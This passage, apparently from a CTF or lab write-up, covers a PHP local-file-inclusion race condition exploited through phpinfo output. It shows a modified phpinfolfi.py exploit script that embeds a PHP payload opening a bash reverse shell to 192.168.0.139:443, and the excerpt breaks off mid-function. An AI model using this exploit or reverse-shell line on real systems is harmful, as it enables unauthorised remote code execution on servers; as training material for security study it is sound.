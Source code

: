 Actually, the server is erasing the file at the moment we upload the file in question (it's a temporary resource: /tmp). So, we may have to consider a **Race-Condition**. To perform it, I'll download the following script: https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/Files/phpinfolfi.py 

I'm going to change some important variables. The final script was:

```python
#!/usr/bin/python
# https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf
# The following line is not required but supposedly optimizes code.  
# However, this breaks on some Python 2 installations, where the future module version installed is > 0.16.  This can be a pain to revert.
# from builtins import range
from __future__ import print_function
import sys
import threading
import socket

def setup(host, port):
    TAG="Security Test"
    PAYLOAD="""%s\r
<?php system("bash -c 'bash -i >& /dev/tcp/192.168.0.139/443 0>&1'");?>\r""" % TAG
    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding="A" * 5000
    REQ1="""POST /info.php?a="""+padding+""" HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script
    LFIREQ="""GET /index.php?filename=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
\r
\r
"""
    return (REQ1, TAG, LFIREQ)

def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((host, port))
    s2.connect((host, port))

    s.send(phpinforeq)
    d = ""
    while len(d) < offset:
        d += s.recv(offset)
    try:
        i = d.index("[tmp_name] =&gt;")
        if i == -1:
```